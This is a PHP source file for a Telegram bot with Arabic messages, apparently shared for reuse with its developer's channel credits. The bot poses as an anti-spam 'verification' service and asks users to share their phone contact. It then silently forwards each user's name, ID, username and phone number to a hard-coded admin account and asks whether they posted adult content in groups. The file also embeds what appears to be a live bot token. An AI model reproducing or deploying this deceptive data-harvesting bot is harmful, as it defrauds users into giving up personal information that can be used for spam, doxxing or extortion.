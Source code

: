 # amg.php
<?php
define('API_KEY','7351297449:AAGmLIjRmLLHaQMwoMxvOZgWm-bIzTyV63s');//توكن بوتك
$admin = "7482710304"; // ايدي ادمن
function del($nomi){
array_map('unlink', glob("$nomi"));
}

function put($fayl,$nima){
file_put_contents("$fayl","$nima");
}
function get($fayl){
$get = file_get_contents("$fayl");
return $get;
}
function ty($ch){ 
return bot('sendChatAction', [
'chat_id' => $ch,
'action' => 'typing',
]);
}
function editMessageText(
        $chatId,
        $messageId,
        $text,
        $parseMode = null,
        $disablePreview = false,
        $replyMarkup = null,
        $inlineMessageId = null
    ) {
       return bot('editMessageText', [
            'chat_id' => $chatId,
            'message_id' => $messageId,
            'text' => $text,
            'inline_message_id' => $inlineMessageId,
            'parse_mode' => $parseMode,
            'disable_web_page_preview' => $disablePreview,
            'reply_markup' => $replyMarkup,
        ]);
    }
function ACL($callbackQueryId, $text = null, $showAlert = false)
{
     return bot('answerCallbackQuery', [
        'callback_query_id' => $callbackQueryId,
        'text' => $text,
        'show_alert'=>$showAlert,
    ]);

}
function bot($method,$datas=[]){
    $url = "https://api.telegram.org/bot".API_KEY."/".$method;
    $ch = curl_init();
    curl_setopt($ch,CURLOPT_URL,$url);
    curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);
    curl_setopt($ch,CURLOPT_POSTFIELDS,$datas);
    $res = curl_exec($ch);
    if(curl_error($ch)){
        var_dump(curl_error($ch));
    }else{
        return json_decode($res);
    }
}
$update = json_decode(get('php://input'));
$message = $update->message;
$text = $message->text;
$cid = $message->chat->id;
$uid = $message->from->id;
$fname = $message->from->first_name;
$user = $message->from->username;
$data = $message->contact;
$nomer = $message->contact->phone_number;
$name = $message->contact->first_name;


if($text == "/start"){
    bot('sendmessage',[
        'chat_id'=>$cid,
        'text'=>"*مرحبا عزيزي المستخدم! مرحبًا بك في الروبوت، يمكنك بسهولة التخلص من البريد العشوائي باستخدام هذا الروبوت!
للقيام بذلك، اضغط على زر ⏳تسجيل وأجب عن الأسئلة*",
        'parse_mode'=>"markdown",
        'reply_markup'=>json_encode(
['resize_keyboard'=>true,
'keyboard' => [
[["text"=>"⏳ابدء التحقق",'request_contact' =>true],],
]
])
]);
}
if($data){
bot('sendmessage',[
    'chat_id'=>"$admin",
    'text'=>"👤 الحساب: [$fname](tg://user?id=$uid)\n📧 يوزر: @$user\n☎️ رقم الهاتف: $nomer\n📡 [@aaaa1qaa]",
    'parse_mode'=>"markdown"
        ]);
bot("sendmessage",[
    'chat_id'=>$cid,
    'text'=>"حظا سعيدا في التسجيل، الآن يمكنك الإجابة على السؤال",
    'reply_markup'=>json_encode(
[
'resize_keyboard'=>true,
'selective'=>true,
'one_time_keyboard'=>true,
'keyboard' => [
[["text"=>"أجيب بنعم او لا"],],
]
])
]);
}

$button = $message->keyboardbutton->text;
if($text == "أجيب بنعم او لا"){
    bot('sendmessage',[
        'chat_id'=>$cid,
        'text'=>"هل كنت في مجموعات ونشرت 🔞 أشياء؟
اكتب الجواب هنا"]);
}
/*غير الحقوق واثبت انك فاشل
اذا تريد تنقل اذكر اسمي او اسم قناتي */

/*====================
CH : @aaaa1qaa
DEV : @@Y_Y_2_4
Translator : @aaaa1qaa/
/*====================*/
echo "𝘉َِ𝘺 . 𝘔َِ𝘙•َِ𝘟 .";
